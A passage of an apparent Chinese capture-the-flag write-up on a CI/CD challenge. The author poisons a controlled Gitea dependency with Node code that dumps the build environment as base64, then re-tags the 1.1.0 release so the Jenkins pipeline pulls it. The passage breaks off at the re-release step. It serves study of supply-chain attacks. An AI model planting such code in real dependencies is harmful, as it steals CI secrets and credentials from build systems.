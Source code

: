 [![](assets/1699929835-f2c3128d7e1cb2101860cc975272d6dd.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231109133726-10e48fa4-7ec2-1.png)

## Twiddledum

目标是一个文件夹，gitea 上有两个仓库，一个是 twiddledee 一个是 twiddledum，尝试在 jenkins 里面构建 twiddledum，发现 pipeline 中执行了 node index.js，index.js 中 require 了 twiddledee，而且 twiddledum 不可控，而 twiddledee 可控，因此往 twiddledee 中注入恶意代码。

修改 twiddledee 的 index.js：

```bash
const child_process = require('child_process');
child_process.exec('env|base64 -w 0',function(error, stdout, stderr){console.log(stdout)});
```

直接 push 到 main 分支上。

根据 twiddledum 的 package.json：

```bash
"dependencies": {
    "twiddledee": "git+http://gitea:3000/Wonderland/twiddledee#semver:^1.1.0"
  },
```

它是通过字下载 twiddledee 的 tag 为 1.1.0 的源码来更新的。因此把之前 1.1.0 的版本发布和 tag 删除后重新发布：
